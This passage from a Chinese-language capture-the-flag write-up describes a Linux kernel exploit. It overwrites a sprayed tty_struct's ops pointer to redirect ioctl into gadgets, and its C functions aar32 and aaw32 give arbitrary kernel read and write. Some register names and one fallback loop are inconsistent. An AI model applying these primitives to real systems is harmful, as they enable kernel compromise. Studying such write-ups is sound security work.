因為參數傳遞的關係，我們可以控制 **rsi** 與 **rdx**，而如果我們將使用 function table 蓋掉，讓 function table 指向我們能控制的位置，使得如 `ioctl` 等使用到 **rdi** 與 **rdx** 的 function 會執行如以下 gadget：

```asm
; aar
mov rax, [rdx];
ret;

; aaw
mov [rdx], ecx;
ret;
```

就能做到任意寫與任意讀。不過因為不知道 spray 到的是哪一個 tty，因此所有 spray 的 tty 都需要執行一次，才會跑到我們能控制 `tty_struct` 對應到的 tty，並蓋掉 tty 的 function pointer `ops`。

```c
unsigned long aar32(unsigned long addr)
{
    unsigned long val;

    u64_ptr[46] = kernel_base + mov_rax_prdx_ret;
    write(ctf_fd, chr_ptr, 0x2b8);

    if (target_fd != -1)
        return ioctl(spray[target_fd], 0, addr);

    for (int i = 0; i < 0x100; i++) {
        val = ioctl(spray[i], 0, addr);
        if (val != 0xffffffffffffffff) {
            target_fd = i;
            return val;
        }
    }
    return 0;
}

void aaw32(unsigned long addr, unsigned data)
{
    u64_ptr[46] = kernel_base + mov_prdx_esi;
    write(ctf_fd, chr_ptr, 0x2b8);

    if (target_fd != -1) {
        ioctl(spray[target_fd], data, addr - 0x10);
        return;
    }

    for (int i = 0; i < 0x100; i++)
        write(spray[i], data, addr - 0x10);
}
```

P.S. 嘗試了一下發現 `write` 雖然也能控制 **rsi**、**rdx**，不過猜測在 syscall write 那層會因為 bad address 而被擋下，因此應該只有 `ioctl` 可以被利用。
